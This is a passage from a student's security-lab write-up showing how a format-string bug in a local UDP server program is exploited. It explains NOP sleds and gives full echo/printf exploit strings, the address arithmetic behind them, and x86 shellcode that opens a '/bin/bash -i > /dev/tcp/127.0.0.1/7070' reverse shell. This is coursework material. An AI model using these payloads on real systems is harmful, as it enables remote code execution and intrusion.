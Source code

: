 #### Why put NOP at the beginning of shellcode?

Explanation:

NOP serves as a **"buffer"**, which means we can just calculate the **approximate** address of the beginning of shellcode and put it into RA. Because NOP does no operation.

If we have no NOPs, then we must calculate the address of the beginning of shellcode **exactly** and put it into RA, which is **troublesome**.



### Task7

Task7 is similar to [Task6](#Task6).

1. First modify the shellcode "`/bin/bash -i > /dev/tcp/127.0.0.1/7070 0<&1 2>&1`" between ① and ②, and the length of the shellcode is exactly 48 bytes, which is a multiple of 4. So we do not need to add more spaces.

2. Similar to [**Task6**](#Task6). 

   Using command`echo $(printf "\x76\x26\xba\xbf....\x74\x26\xba\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7before` and `nc -u localhost 9090` to check the address of msg.

   ![task71](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009160130433.png)

   Here we can see the address of msg is `0xbf903320`. So the address of RA is `0xbf90331c`, the approximate address of the beginning address is `0xbf9033d4`, and I change the 23rd of `%.8x` to `%.48852x (48852 = 0xbf90-22*8-12)`. 

   Because `0x3320<0xbf90`, we must use overflow technique in [Task5C](#Task5C), the result of `0x13320-0xbf90` is 5 digits decimal number.

   And `%.48852x` is in the buf, which is stored 4 more bytes than `%.8x`, and `%hn` is stored 1 less byte than `%.8x`, so the exact beginning address of malicious code (the first **NOP**) is `'msg address' + 0x40+26*4(offset)+12+10=0xbf9033de`, however we just using `'msg address' + 0x40+26*4(offset)+12+8=0xbf9033dc` in the task because there are 4 **NOP** in the beginning. 

   `0x133dc-0xbf90=29772`, so I change the 25th `%.8x` to `%.29772x`.

   And change 24th and 26th `%.8x` to `%hn`.

3. 

   `echo $(printf "\x1e\x33\x90\xbf....\x1c\x33\x90\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.48852x%hn%.29772x%hn $(printf "\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7after` and `nc -u localhost 9090` to execute my malicious code.



![image-20201009160008072](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201009160008072.png)
